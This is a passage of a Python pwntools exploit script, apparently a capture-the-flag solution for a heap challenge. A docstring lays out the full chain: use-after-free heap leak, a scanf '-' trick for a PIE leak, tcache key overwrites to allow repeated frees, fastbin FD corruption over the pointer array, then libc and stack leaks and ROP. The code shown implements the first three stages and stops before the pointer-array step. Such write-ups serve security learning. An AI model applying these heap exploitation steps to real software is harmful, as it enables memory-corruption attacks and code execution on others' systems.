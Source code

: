```python
    io.sendlineafter(b'enter your guess: ', secrets[idx])
    io.readuntil(b'data: "')
    return io.readline()[:-2]

def delete(idx : int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'index to free: ', str(idx).encode())
    io.sendlineafter(b'enter your guess: ', secrets[idx])
    
"""
Heap leak with UAF
PIE leak with "-" or "+" for scanf %d input in secret function
Fill tcache (because calloc doesn't use that), use UAF to overwrite tcache keys and free the same chunk over and over to bypass chunk limit
Overwrite fastbin FD to allocate it on the pointer array (chunk sizes are also placed there, this helps us bypass fastbin size check)
Write GOT address on pointer array and print it for libc leak
Write libc environ on pointer array and print it for stack leak
Write stack return address on pointer array to edit it and place your ROP payload
ROP on libc
Enjoy!
"""

################ Heap leak ################
create(0x30, b'A')

secrets[0] = get_secret(0)

delete(0)

fd_leak = show(0).ljust(8, b'\x00')
heap_base = unpack(fd_leak) << 12

assert heap_base > 0x100000000000, 'corrupted leak'

################ PIE leak ################
# secret function time
io.sendlineafter(b'> ', b'9999')
io.sendlineafter(b'enter your name: \n', b'header')
io.sendlineafter(b'enter your age: \n', b'-') # if you enter - or +, nothing gets written and scanf considers the input to be valid

io.readuntil(b'your age: ')
elf_leak = int(io.readuntil(b' ')[:-1])
elf_base = elf_leak - 0x4060

assert elf_base > 0x100000000000, 'corrupted leak'

elf.address = elf_base

################ Fill tcache ################
# Since calloc is used (which doesn't take chunks from the tcache directly), we need to fill the tcache to
# start using fastbins.
# Because we are limited to 7 chunks, we are going to abuse UAF to overwrite tcache keys and then
# do multiple frees on the already free'd chunks
for i in range(6):
    edit(0, b'A' * 16) # overwrite tcache key as well
    delete(0)


################ Get chunk over pointer list ################
```